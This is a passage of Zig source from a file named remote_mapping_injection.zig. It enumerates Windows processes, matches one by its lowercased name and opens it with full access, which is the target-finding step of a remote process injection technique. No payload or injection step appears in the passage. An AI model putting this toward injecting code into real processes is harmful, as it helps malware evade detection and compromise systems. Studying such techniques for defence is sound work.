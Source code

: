 ```zig name=remote_mapping_injection.zig
        .dwFlags = 0,
        .szExeFile = undefined,
    };

    // Get first process
    if (Process32First(h_snapshot, &proc) == 0) {
        std.debug.print("\n\t[!] Process32First Failed With Error : {}\n", .{windows.kernel32.GetLastError()});
        return false;
    }

    // Loop through processes
    while (true) {
        // Convert process name to lowercase for comparison
        var lower_name: [MAX_PATH * 2]u16 = undefined;
        @memset(&lower_name, 0);

        // Convert proc.szExeFile to wide string and make lowercase for comparison
        var utf16_process_name: [MAX_PATH]u16 = undefined;
        var utf16_length: usize = 0;

        // Convert ANSI to UTF-16
        for (0..MAX_PATH) |i| {
            if (proc.szExeFile[i] == 0) {
                break;
            }
            utf16_process_name[i] = @as(u16, proc.szExeFile[i]);
            utf16_length = i + 1;
        }
        utf16_process_name[utf16_length] = 0; // Null terminate

        // Convert to lowercase
        var i: usize = 0;
        while (i < utf16_length) : (i += 1) {
            const c = utf16_process_name[i];
            if (c >= 'A' and c <= 'Z') {
                lower_name[i] = c + ('a' - 'A');
            } else {
                lower_name[i] = c;
            }
        }
        lower_name[i] = 0; // Null terminate

        // Compare names
        var match = true;
        i = 0;
        while (i < process_name.len and process_name[i] != 0 and i < MAX_PATH * 2) : (i += 1) {
            if (process_name[i] != lower_name[i]) {
                match = false;
                break;
            }
            if (lower_name[i] == 0) break;
        }

        if (match) {
            // We found the process
            process_id.* = proc.th32ProcessID;
            process_handle.* = OpenProcess(PROCESS_ALL_ACCESS, 0, proc.th32ProcessID);

            if (process_handle.* == null) {
                std.debug.print("\n\t[!] OpenProcess Failed With Error : {}\n", .{windows.kernel32.GetLastError()});
            }
```